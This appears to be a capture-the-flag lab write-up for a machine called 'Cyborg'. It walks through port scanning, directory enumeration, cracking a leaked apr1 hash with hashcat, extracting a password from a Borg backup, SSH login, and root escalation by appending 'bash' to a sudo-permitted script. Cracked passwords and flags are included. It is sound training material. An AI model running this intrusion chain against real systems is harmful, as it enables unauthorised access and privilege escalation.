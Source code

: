 # Cyborg

--------------------------------------------------------------------

**TOOLS USED**: nmap, feroxbuster, hashcat, borg

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.229.132

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
-p-: scan all ports
-T SCAN_SPEED (0-5)
```
nmap -sC -sV -p- -T5 10.10.229.132
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
feroxbuster -u http://10.10.229.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /admin, /etc

![1.3](./imgs/1.3.png)

**USERNAME**: alex

Look for music archive<br>

![1.4](./imgs/1.4.png)

squid config files publicly available<br>
http access allowed

music_archive found

![1.5](./imgs/1.5.png)

**PASSWORD HASH**: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. 

also downloaded archive from 10.10.229.132/admin/archive.tar

archive is Borg Backup repo

### 2. CRACK HASH

```
hash-identifier
```
![2.1](./imgs/2.1.png)

**HASH TYPE**: md5 (apr)

```
echo "\$apr1\$BpZ.Q.1m\$F0qqPwHSOG50URuOVQTTn." > hash
hashcat -a0 -m1600 hash /usr/share/wordlists/rockyou.txt.gz
```

![2.2](./imgs/2.2.png)

**PASSWORD**: squidward

### 3. BORG BACKUP

Install borgbackup and restore backup
```
sudo apt install borgbackup
mkdir borg
borg mount home/field/dev/final_archive borg
```

![3.1](./imgs/3.1.png)

Now we have access to alex's home directory backup

**PASSWORD**: S3cretP@s3

![3.2](./imgs/3.2.png)

### 4. SSH LOGIN

```
ssh alex@10.10.229.132
```

![4.1](./imgs/4.1.png)

**USER FLAG**: flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

### 5. PRIVILEGE ESCALATION

check privileges
```
sudo -l
```

![5.1](./imgs/5.1.png)

alex can run /etc/mp3backups/backup.sh as root without a password

```
ls -l /etc/mp3backups/backup.sh
```

![5.2](./imgs/5.2.png)

alex owns backup.sh so we can make it writable and inject our own code

```
chmod 777 /etc/mp3backups/backup.sh
echo "bash" >> /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
```

![5.3](./imgs/5.3.png)

**ROOT FLAG**: flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}